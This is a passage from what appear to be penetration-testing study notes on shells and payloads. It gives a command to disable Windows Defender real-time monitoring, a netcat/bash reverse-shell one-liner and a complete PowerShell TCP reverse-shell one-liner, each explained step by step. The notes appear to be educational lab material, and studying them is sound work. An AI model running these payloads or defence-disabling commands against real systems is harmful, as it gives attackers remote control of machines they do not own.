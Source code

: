 __Disable AV__
```
Set-MpPreference -DisableRealtimeMonitoring $true
```
Back on our attack box, we should notice that we successfully established a reverse shell.

# Payloads

## Introduction
 In information security, it refers to the command or code that exploits a vulnerability in an OS or application, performing a malicious action. For example, as seen in the reverse shells section, Windows Defender blocked the PowerShell payload due to its malicious nature. When delivering and executing payloads, it's essential to understand that we're simply giving the target system instructions, much like any program. Instead of seeing it as mysterious "malicious code," it's important to explore and understand what the payload is actually doing.
 
### Netcat/Bash Reverse Shell One-liner linux

This Netcat/Bash reverse shell one-liner creates a backdoor connection from a target machine to an attacker:

1. **Remove File**: `rm -f /tmp/f;` removes any existing file `/tmp/f`. The `-f` flag ensures no error if the file doesn't exist.
2. **Create Pipe**: `mkfifo /tmp/f;` makes a special file (named pipe) at `/tmp/f`, which allows data to flow in and out like a channel.
3. **Read Input**: `cat /tmp/f |` reads data from the pipe and sends it to the next command using a pipe (`|`).
4. **Start Shell**: `/bin/bash -i 2>&1 |` starts an interactive Bash shell and redirects errors and output to the next command.
5. **Netcat Connection**: `nc 10.10.14.12 7777 > /tmp/f` connects to the attacker's machine (`10.10.14.12`) on port `7777`, sending the shell's output back through the pipe.

### PowerShell One-liner payload
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
**powershell -nop -c** Executes powershell.exe with no profile (nop) and executes the command/script block (-c) contained in the quotes. This particular command is issued inside of command-prompt, which is why PowerShell is at the beginning of the command. It's good to know how to do this if we discover a Remote Code Execution vulnerability that allows us to execute commands directly in **cmd.exe**.

1. Establish a Connection: ` $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);` Creates a TCP client that connects to the attacker's machine at IP 10.10.14.158 on port 443.
2. Get the Network Stream: `$stream = $client.GetStream();` Retrieves the data stream (input/output) from the TCP connection.
3. Create a Buffer: `[byte[]]$bytes = 0..65535 | % { 0 };` Creates a byte array buffer to store the incoming and outgoing data.
4. Read Incoming Commands: `while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)` This loop reads data (commands) sent by the attacker from the TCP stream.
5. Execute Received Commands: `$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );` Converts the incoming bytes into a string (the command), then executes the command using iex.
2>&1 captures both errors and output, and Out-String formats it.
6. Send Command Output Back to Attacker: `$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);